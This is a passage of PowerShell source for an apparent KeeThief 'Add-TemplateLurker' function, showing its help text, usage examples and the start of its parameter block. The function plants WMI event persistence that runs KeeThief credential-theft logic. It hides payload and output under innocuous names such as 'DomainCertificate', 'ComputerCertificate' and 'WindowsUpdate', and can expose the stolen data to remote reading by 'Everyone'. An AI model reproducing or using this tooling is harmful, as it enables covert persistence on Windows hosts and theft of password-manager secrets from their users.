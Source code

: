 Indicates the name of the custome WMI namespace. Defaults to 'ROOT\Software'.

.PARAMETER PayloadValueName

Indicates the name of the registry value used to store KeeThief logic. Defaults to 'DomainCertificate'.

.PARAMETER OutputValueName

Indicates the name of the registry value used to store KeeThief output. Defaults to 'ComputerCertificate'.

.PARAMETER RegistryPath

Indicates the name of the custome WMI class. Defaults to 'HKLM:\SOFTWARE\Microsoft\SystemCertificates\'.

.PARAMETER EventName

Specifies the name to use for the WMI event. 

.EXAMPLE

PS C:\>Add-TemplateLurker -EventName Lurker -WMI

This command will create a WMI event that uses a custom WMI class for storage.

.EXAMPLE

PS C:\>Add-TemplateLurker -EventName Lurker -Registry

This command will create a WMI event that uses the registry for storage.

.EXAMPLE

PS C:\>Add-TemplateLurker -EventName Lurker -WMI -NamespaceName root\cimv2\KeeThief -ExposeNamespace

This command will create a WMI event that uses a custom WMI class for storage at 'root\cimv2\KeeThief'. The data stored in this namespace
will be readable remotely by 'Everyone'
#>

    Param (

        [Parameter(ParameterSetName = 'WMI')]
        [String]
        $ClassName = 'WindowsUpdate',

        [Parameter(Mandatory = $True, ParameterSetName = 'Registry')]
        [Parameter(Mandatory = $True, ParameterSetName = 'WMI')]
        [String]
        $EventName,

        [Parameter(ParameterSetName = 'WMI')]
        [Switch]
        $ExposeNamespace,

        [Parameter(ParameterSetName = 'WMI')]
        [String]
        $NamespaceName = 'root\Software',
